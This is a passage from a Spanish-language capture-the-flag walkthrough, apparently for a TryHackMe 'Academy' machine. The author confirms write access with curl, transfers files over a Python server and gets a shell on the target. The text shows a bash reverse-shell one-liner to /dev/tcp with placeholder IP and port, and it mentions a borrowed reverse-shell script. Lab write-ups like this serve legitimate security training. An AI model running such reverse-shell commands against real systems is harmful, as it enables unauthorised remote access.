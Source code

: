 Y mira tú, funcionó con ua.thm y en urlcode (que ahortia no se ve porque lo leyó como un espacio). Al momento de listar con mi curl pude ver que en efecto se había creado la carpeta, lo que me dice que tenemos privilegios en esa carpeta para escribir. Ahora hay que ver como nos mandamos una consola interactiva. Hay varias formas de mandarla, entre esas mandar un bash-i>&/dev/tcp/IP/PORT>&1. Intenté con esto directamente, pero no funcionó, así que pensé que podríamos subir un script para hacerlo de forma automática, para eso primeros debemos ver si podemos transferirnos archivos y podemos hacer esto montano un pequeño server en python para transferir cositas. 

![](/assets/post/Academy/8.png)

Y se logró, aquí tengo dos opciones: La primera es con un script que hice llamado shell.sh que es fácil, simplemente ejecuta el siguiente comando para mandar una shell. El segundo es un script que encontré hecho por este amable sujeto que permite mandar una shell, eso sí, debes cambiar la ip de la shell a la tuya junto con el puerto que quieres usar. 

```
bash-i>&/dev/tcp/IP/PORT>&1
```

El primer método no funcionó por falta de permisos, sin embargo el segundo funcionó de maravilla y ¡listo! ¡Tenemos una shell dentro de la máquina que queremos vulnerar! 

![](/assets/post/Academy/9.png)
